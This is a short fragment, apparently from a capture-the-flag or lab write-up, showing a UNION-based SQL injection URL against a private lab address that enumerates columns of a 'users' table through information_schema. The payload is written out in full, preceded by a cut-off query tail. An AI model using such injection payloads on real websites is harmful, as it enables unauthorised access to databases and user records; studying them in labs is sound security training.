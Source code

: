 = database() and table_name = "users";  
  
  
  
[http://10.10.103.194/item.php?id=5%20UNION%20SELECT%201,%202,3%20,4,%20group_concat(table_name)%20FROM%20information_schema.columns%20WHERE%20table_schema%20=%20database()%20and%20table_name%20=%20%22users%22;](http://10.10.103.194/item.php?id=5%20UNION%20SELECT%201,%202,3%20,4,%20group_concat(table_name)%20FROM%20information_schema.columns%20WHERE%20table_schema%20=%20database()%20and%20table_name%20=%20%22users%22;)